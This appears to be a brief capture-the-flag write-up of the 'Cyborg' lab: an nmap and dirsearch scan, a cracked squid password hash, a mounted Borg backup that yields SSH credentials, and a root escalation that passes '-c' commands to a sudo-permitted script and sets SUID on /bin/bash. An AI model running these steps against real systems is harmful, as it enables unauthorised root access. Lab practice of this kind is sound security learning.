 nmap: 22 ssh
80 http

dirsearch: /admin
	found: archive.tar at Archive/Download
			Admin Shoutbox at Admins

			/etc/squid/passwd: music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. -> squidward

checking archive.tar 
	working with <borg>
		install borg: sudo apt install borgbackup

		borg list /home/eliot/Desktop/write-ups/thm/cyborg/home/field/dev/final_archive -> found music_archive

		create dir unpacked

		borg mount /home/eliot/Desktop/write-ups/thm/cyborg/home/field/dev/final_archive unpacked

		found note.txt -> ssh cred: alex:S3cretP@s3

-> got user.txt

checking sudo: sudo -l
	(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh

checking the script: can pass argument -c to run cmd
	sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

-> got root.txt

fully compomise: sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash" 
	bash -p 
-> root


